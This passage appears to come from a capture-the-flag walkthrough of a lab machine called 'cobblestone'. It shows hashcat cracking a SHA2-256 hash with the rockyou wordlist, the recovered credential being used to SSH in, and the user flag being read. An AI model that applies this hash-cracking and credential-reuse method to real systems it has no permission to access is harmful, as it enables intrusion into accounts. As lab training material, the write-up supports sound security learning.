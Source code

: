 ```bash
* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

20cdc5073e9e7a7631e9d35b5e1282a4fe6a8049e8a84c82987473321b0a8f4d:iluvdannymorethanyouknow
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: hashes.txt
Time.Started.....: Wed Aug 13 12:30:29 2025 (21 secs)
Time.Estimated...: Wed Aug 13 12:30:50 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   846.0 kH/s (0.43ms) @ Accel:256 Loops:1 Thr:1 Vec:16
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 76%

Started: Wed Aug 13 12:29:40 2025
Stopped: Wed Aug 13 12:30:52 2025
```

Got it `cobble:iluvdannymorethanyouknow`. <br>
&rarr; SSH to it and got the user flag.

```bash
└─$ ssh cobble@cobblestone.htb         
cobble@cobblestone.htb's password: 
Linux cobblestone 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.140-1 (2025-05-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
cobble@cobblestone:~$ ls -la
total 32
drwx------ 3 cobble cobble 4096 Jul 24 14:41 .
drwxr-xr-x 3 root   root   4096 Jul 24 14:41 ..
-rwx------ 1 root   root      1 Oct  1  2024 .bash_history
-rwx------ 1 cobble cobble  220 Oct  1  2024 .bash_logout
-rwx------ 1 cobble cobble 3526 Oct  1  2024 .bashrc
-rwx------ 1 cobble cobble  807 Oct  1  2024 .profile
drwx------ 2 cobble cobble 4096 Jul 24 14:41 .ssh
-rw-r----- 2 root   cobble   33 Aug 13 15:39 user.txt
cobble@cobblestone:~$ cat user.txt
3cb03f28e1b74b95067009d4c43ab388
```
